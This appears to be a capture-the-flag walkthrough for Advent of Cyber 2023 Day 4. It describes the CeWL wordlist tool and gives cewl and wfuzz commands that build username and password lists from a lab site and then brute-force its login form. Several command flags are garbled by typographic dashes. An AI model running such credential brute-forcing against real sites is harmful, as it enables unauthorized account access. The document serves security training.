 # Day 4

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/87565812-f06a-4f09-8433-01c6148f9d83)

## CeWL: Custom Wordlist Generator

Many tools rely on pre-defined lists or common dictionary attacks, but CeWL stands out for the following reasons:

      1. **Target-specific wordlists:**
         - CeWL crafts wordlists specifically from the content of a targeted website. The generated list is tailored to the vocabulary and terminology used on that site, increasing the efficiency of brute-forcing tasks.
      
      2. **Depth of search:**
         - CeWL can spider a website to a specified depth, extracting words not just from one page but also from linked pages up to the set depth.
      
      3. **Customizable outputs:**
         - CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This customization is advantageous for targeting specific types of credentials or vulnerabilities.
      
      4. **Built-in features:**
         - While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
      
      5. **Efficiency:**
         - Given its customizability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
      
      6. **Integration with other tools:**
         - Being command-line based, CeWL can be seamlessly integrated into automated workflows, and its outputs can be directly fed into other cybersecurity tools.
      
      7. **Actively maintained:**
         - CeWL is actively maintained and updated, staying relevant and compatible with contemporary security needs and challenges.


## Day 4 Task:

### 1. What is the correct username and password combination? Format username: password

With CewlGenerate a list of Usernames with the Command —

    cewl -d 0 -m 5 -w usernames.txt http://MACHINE-IP/team.php — lowercase
   
Again with CewlGenerate a list of Passwords with the Command —

    cewl -d 2 -m 5 -w passwords.txt http://MACHINE-IP —-with-numbers
   
Now bruteforce the Credentials using wfuzz with the command —

    wfuzz -c -z file,usernames.txt -z file,passwords.txt — hs “Please enter the correct credentials” -u http://MACHINE-IP/login.php -d “username=FUZZ&password=FUZ2Z”

### 2. What is the Flag?

Log in and click on the Email with the Subject “Confidential Message”

